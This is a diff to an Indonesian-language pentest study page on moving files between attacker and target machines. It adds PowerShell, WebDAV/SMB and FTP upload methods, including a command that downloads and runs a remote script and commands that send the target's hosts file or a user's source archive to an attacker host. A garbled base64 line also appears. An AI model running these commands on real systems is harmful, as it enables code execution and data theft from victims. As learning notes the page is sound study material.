

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: learn/readme/file-transfer.md, the part around the change printed below. Shown: that part at 89% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/learn/readme/file-transfer.md
+++ b/learn/readme/file-transfer.md
@@ -84,20 +84,20 @@ sudo python3 -m pyftpdlib --port 21
 (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'C:\Users\Public\ftp-file.txt')
 
 # membuat ftp interaktif di komp target
-C:\batagor> echo open 192.168.49.128 > ftpcommand.txt
+C:\batagor> echo open <ip> > ftpcommand.txt
 C:\batagor> echo USER anonymous >> ftpcommand.txt
 C:\batagor> echo binary >> ftpcommand.txt
 C:\batagor> echo GET file.txt >> ftpcommand.txt
 C:\batagor> echo bye >> ftpcommand.txt
 C:\batagor> ftp -v -n -s:ftpcommand.txt
-ftp> open 192.168.49.128
+ftp> open <ip>
 Log in with USER and PASS first.
 ftp> USER anonymous
 
 ftp> GET file.txt
 ftp> bye
 
-C:\htb>more file.txt
+C:\batagor>more file.txt
 Ini isi file contoh
 ```
 
@@ -110,7 +110,55 @@ Ini isi file contoh
 # salin hash dan paste di komp attacker (linux)
 echo ENCODED_BASE64 > base64 -d > hosts
 
-# pastikan file sama, cek hash
+# pastikan file sama, verifikasi dg hash
 ```
 
-### PowerShell Web Uploads
+### Metode 6: PowerShell Web Uploads
+
+```
+# di komp attacker
+pip3 install uploadserver
+python3 -m uploadserver
+
+# di komp target (windows)
+IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
+Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hosts
+
+## upload dengan format Base64
+# di komp attacker
+nc -lvnp 8000
+
+# di komp target
+$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
+Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
+```
+
+### Metode 7: SMB uploads
+
+```
+# di komp attacker
+sudo pip3 install wsgidav cheroot
+sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
+
+# tes koneksi dari komp target
+dir \\192.168.49.128\DavWWWRoot
+
+# tes upload file dari komp target
+copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
+copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
+```
+
+### Metode 7: FTP uploads
+
+```
+# di komp attacker
+sudo python3 -m pyftpdlib --port 21 --write
+
+# di komp target (windows)
+(New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
+```
+
+<h2 align="center">Linux</h2>
+
+### Metode 1: copas encode
+
````
Also changed, not shown: other parts of learn/readme/file-transfer.md (+100 -1 lines).
